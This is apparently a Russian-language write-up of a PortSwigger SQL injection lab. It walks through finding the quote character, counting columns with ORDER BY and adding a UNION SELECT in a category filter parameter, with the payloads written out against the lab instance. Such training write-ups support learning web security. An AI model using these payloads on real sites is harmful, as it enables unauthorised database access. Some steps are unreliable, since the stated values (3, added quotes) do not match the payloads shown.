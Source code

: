 ```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sql, writeup]
---
```

## Links

**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с *NULL* значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```
<br>

Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>

  >`-- -` - это комментарий в `SQL`, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая  
  > ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада).

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

Супер. ~~Сбер теперь купер~~.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}
 
Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД.
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки.

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}
<br>

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
